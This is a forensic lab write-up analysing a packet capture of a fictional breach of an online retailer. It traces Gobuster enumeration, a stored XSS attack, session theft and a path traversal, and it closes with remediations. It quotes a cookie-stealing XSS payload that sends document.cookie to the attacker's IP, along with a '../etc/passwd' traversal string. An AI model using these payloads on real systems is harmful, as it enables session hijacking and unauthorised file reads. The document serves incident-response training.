










# Lab: RetailBreach - Incident Investigation Writeup


**Tactics:** Tactics: Reconnaissance, Initial Access, Execution, Defense Evasion, Credential Access, Discovery, Lateral Movement <br/>
**Tools:** Wireshark

## Scenario

ShopSphere, an online retail platform, flagged an unusual pattern of administrative logins occurring late at night, coinciding with customer complaints about account anomalies. As the cybersecurity analyst assigned to the case, I was given a packet capture (`RetailBreach.pcap`) and tasked with determining the source and nature of the potential breach.

**Tool used:** Wireshark

---

## Step 1 - Getting an Overview of the Capture

Before diving into specific packets, I wanted a high-level view of who was talking to whom.

**Actions:**
1. Opened Wireshark → `File ➝ Open` → loaded `RetailBreach.pcap`
2. Opened `Statistics ➝ Endpoints` to list all IP addresses present in the capture

<p align="center">
  
</p>

**Result:** Three IP addresses were involved:
- `73.124.17.52`
- `111.224.180.128`
- `135.143.142.5`

<p align="center">
  
</p>

---

## Q1 - Identifying the Attacker's IP Address

Since most traffic was exchanged between `73.124.17.52` and `111.224.180.128`, I inspected the HTTP traffic to determine which of the two was the web server.

**Filter used:**
```
http
```

**Finding:** `73.124.17.52` was responding to incoming HTTP requests, confirming it as ShopSphere's **web server**.

**Conclusion:** `111.224.180.128` is the **attacker's IP address**.

---

## Q2 - Identifying the Directory Brute-Forcing Tool

Directory brute-forcing tools often leave a distinctive `User-Agent` string that doesn't match a normal browser. I filtered for HTTP requests originating from the attacker.

**Filter used:**
```
ip.src==111.224.180.128 and http
```

**Action:** Right-clicked a packet → `Follow ➝ HTTP Stream` to inspect request headers.

**Finding:** All requests shared the same User-Agent string: `gobuster`.

<p align="center">
  
</p>

**Conclusion:** The attacker used **Gobuster**, an open-source directory/file brute-forcing tool, to enumerate hidden paths on the web application.

---

## Q3 - Identifying the XSS Payload

To find injected script content, I searched attacker-originated HTTP traffic for the keyword "script."

**Filter used:**
```
ip.src==111.224.180.128 and http contains "script"
```
<p align="center">
  
</p>

**Finding:** Most attacker requests were `GET`, except one `POST` request to `/reviews.php`, which stood out as a likely injection point.

<p align="center">
  
</p>

**Action:** Followed the HTTP stream of that `POST` request and extracted the URL-encoded payload, then decoded it using **CyberChef**.

**Decoded payload:**
```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

**Conclusion:** This is a classic **session-cookie exfiltration XSS payload** - it sends the victim's cookies (including session identifiers) to the attacker's server whenever the injected script executes in a victim's browser.

---

## Q4 - Timestamp of the Admin's Visit to the Infected Page

The third IP, `135.143.142.5`, was inferred to belong to the **administrator** (the only IP not tied to the server or attacker). I filtered for admin traffic hitting the compromised page.

**Filter used:**
```
ip.src!=111.224.180.128 and http contains "reviews.php"
```
<p align="center">
  
</p>

**Finding:** Two matching packets - frame **61** and frame **10106**. Since the malicious injection occurred at frame **10060**, the admin visited `/reviews.php` once *before* the injection (frame 61) and once *after* (frame 10106) - meaning the second visit loaded the malicious script.

**Action:** Selected packet 10106 and inspected the frame details pane for the arrival timestamp.

<p align="center">
  
</p>

**Finding:**
```
Mar 29, 2024 12:09:50.869688000 UTC
```

**Conclusion:** The admin loaded the infected page at **29-03-2024 12:09:50 UTC**, triggering the XSS payload.

---

## Q5 - Recovering the Stolen Session Token

Since the injected script exfiltrated cookies to the attacker's own IP, the stolen token should appear in the attacker-bound HTTP request generated by the admin's browser.

**Action:** Selected packet **10106** → `Follow ➝ HTTP Stream`.

<p align="center">
  
</p>

**Finding:** The request contained the admin's session cookie value:
```
lqkctf24s9h9lg67teu8uevn3q
```

**Conclusion:** The attacker successfully captured the administrator's session token via the XSS payload.

---

## Q6 - Identifying the Exploited Script

With the stolen token in hand, the attacker likely pivoted to abusing the admin session. I filtered for attacker activity occurring *after* the token theft.

**Filter used:**
```
ip.src==111.224.180.128 and http and frame.number > 10106
```

<p align="center">
  
</p>

**Finding:** A small number of requests, the last three targeting `/log_viewer.php`. The final request included a suspicious parameter:
```
file=../../../../../etc/passwd
```

**Action:** Followed the HTTP stream of this request to confirm server behavior.

<p align="center">
  
</p>

**Conclusion:** `log_viewer.php` is vulnerable to **path traversal**, allowing arbitrary file reads outside the web root using the hijacked admin session.

---

## Q7 - The Path Traversal Payload

Building on Q6, the exact payload used to read a sensitive system file was:

```
../../../../../etc/passwd
```

This sequence of `../` traverses up the directory tree to reach the filesystem root, then accesses `/etc/passwd` - a common target for confirming Linux file-read vulnerabilities since it's world-readable and highly recognizable in output.

---

## Summary of Findings

| # | Question | Finding |
|---|----------|---------|
| 1 | Attacker IP | `111.224.180.128` |
| 2 | Brute-force tool | Gobuster |
| 3 | XSS payload | `<script>fetch('http://111.224.180.128/' + document.cookie);</script>` |
| 4 | Admin visited infected page | 29-03-2024 12:09:50 UTC |
| 5 | Stolen session token | `lqkctf24s9h9lg67teu8uevn3q` |
| 6 | Exploited script | `log_viewer.php` (path traversal) |
| 7 | Path traversal payload | `../../../../../etc/passwd` |

### Attack Chain Reconstruction
1. **Recon** - Attacker used Gobuster to brute-force hidden directories/endpoints on ShopSphere.
2. **Initial compromise** - Attacker found `/reviews.php` accepted unsanitized input and injected a cookie-stealing XSS payload via a `POST` request.
3. **Credential theft** - When the administrator later browsed to `/reviews.php`, the malicious script executed in their browser and exfiltrated their session cookie to the attacker's server.
4. **Privilege abuse** - Using the stolen admin session token, the attacker accessed `/log_viewer.php`.
5. **Data exposure** - The attacker exploited a path traversal flaw in `log_viewer.php` to read `/etc/passwd`, confirming arbitrary file read access on the underlying server.

### Recommended Remediations
- Sanitize and encode all user-supplied input on `/reviews.php` to prevent stored XSS.
- Implement `HttpOnly` and `Secure` flags on session cookies to prevent JavaScript access.
- Apply strict input validation/allow-listing on the `file` parameter in `log_viewer.php`, and canonicalize paths server-side to block traversal sequences.
- Enforce session token rotation and short expiry for admin sessions.
- Deploy rate-limiting/WAF rules to detect and block directory brute-forcing tools like Gobuster.
